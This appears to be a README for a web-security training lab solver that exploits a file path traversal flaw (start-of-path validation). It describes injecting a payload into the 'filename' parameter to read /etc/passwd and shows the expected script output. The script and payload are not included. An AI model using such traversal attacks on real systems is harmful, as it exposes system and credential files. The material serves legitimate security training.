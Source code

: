 # Hack Steps

1. Inject payload into 'filename' query parameter to retrieve the content of /etc/passwd 
2. Extract the first line as a proof


# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python file_path_traversal_validation_of_start_of_path.py
```

# Expected Output

```
⟪#⟫ Injection parameter: filename
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 Check your browser, it should be marked now as solved
```
